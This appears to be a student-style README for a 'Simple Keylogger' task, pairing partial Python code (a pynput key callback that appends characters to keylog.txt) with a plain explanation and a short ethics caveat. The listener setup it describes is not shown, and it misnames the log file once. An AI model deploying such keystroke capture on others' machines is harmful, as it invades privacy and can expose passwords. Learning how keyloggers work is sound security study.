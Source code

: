# Task -04 - Simple Keylogger
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
from pynput import keyboard
This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice.
def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
           char = key.char
           logkey.write(char)
        except:
            print("Error getting char")

This block defines a function named keyPressed that takes a key parameter. Inside the function, it prints the string representation of the key to the console.
It then opens a file named "keyfile.txt" in append mode ('a') and attempts to get the character representation of the key (key.char).
If successful, it writes the character to the file. If there's an exception (error) during this process, it prints an error message.

The input() function is included to keep the script running indefinitely until the user manually terminates it.

In summary, the code sets up a keylogger using the pynput library, defining a callback function to handle key presses and logging them to a file named "keylog.txt".
The script continues running until the user manually stops it.
